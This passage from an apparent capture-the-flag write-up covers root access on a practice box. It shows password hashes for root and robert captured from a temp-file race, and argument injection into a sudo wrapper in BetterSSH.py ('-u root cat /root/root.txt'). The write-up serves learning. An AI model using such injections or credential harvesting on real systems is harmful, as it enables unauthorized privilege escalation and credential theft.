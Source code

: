 And now this is going to copy everything in /tmp/SSH/ every 0.5 seconds to /dev/shm, if we execute the BetterSSH now while this is running we are going to find a randomly named file with the following content in /dev/shm
```
root
$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1
18226
0
99999
7


robert
$6$fZZcDG7g$lfO35GcjUmNs3PSjroqNGZjH35gN4KjhHbQxvWO0XU.TCIHgavst7Lj8wLF/xQ21jYW5nD66aJsvQSP/y1zbH/
18163
0
99999
7
```

So we could now go and crack this hash, or we use another mistake that was made in this BetterSSH.py, which we can see here: 

```py
if session['authenticated'] == 1:
    while True:
        command = input(session['user'] + "@Obscure$ ")
        cmd = ['sudo', '-u',  session['user']]
```

This means that all our commands that we run in this ssh are executed as sudo -u robert {command}, which results in our commands being run as the user robert, but if our command is

```
-u root whoami
```

we can see that the command got executed as root. Which means we are able to get root-flag with 

```
-u root cat /root/root.txt
```

# 0x04 Closing words

This was my first 'medium' rated box and it was one hell of a ride, Thanks to the author of the box I learned a lot from solving this one.